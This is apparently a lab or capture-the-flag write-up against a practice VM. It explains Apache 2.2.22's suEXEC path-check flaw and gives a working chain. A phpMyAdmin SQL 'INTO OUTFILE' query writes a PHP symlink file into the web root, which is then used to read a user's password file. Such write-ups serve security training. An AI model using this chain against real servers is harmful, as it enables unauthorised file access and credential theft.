 Apache is running with the version 2.2.22

After some research, we found this version is vulnerable. The suEXEC vulnerability is a path traversal. We can do a symlink with / and a php page to access a files the user www-data can read

Path checking code design error, subdirectory entry is determined via `strncmp()`, i.e. in addition to the directory `/var/www/html` described in the configuration, the check will also be successful for `/var/www/html_backup` or `/var/www/htmleditor`.

We can found an exploit here : exploit-db.com/exploits/27397

We can exploit it by uploading a PHP page (with a SQL request in phpmyadmin like in the writeup2)
```SQL
SELECT 1, '<?php symlink(\"/\", \"paths.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

1. https://192.168.56.104/phpmyadmin/index.php -> db phpmyadmin -> `localhost -  phpmyadmin -  pma_bookmark "Bookmarks"` -> execute the SQL request
2. open https://192.168.56.104/forum/templates_c/run.php
3. open https://192.168.56.104/forum/templates_c/paths.php
4. open `/home/LOOKATME/password` https://192.168.56.104/forum/templates_c/paths.php/home/LOOKATME/password
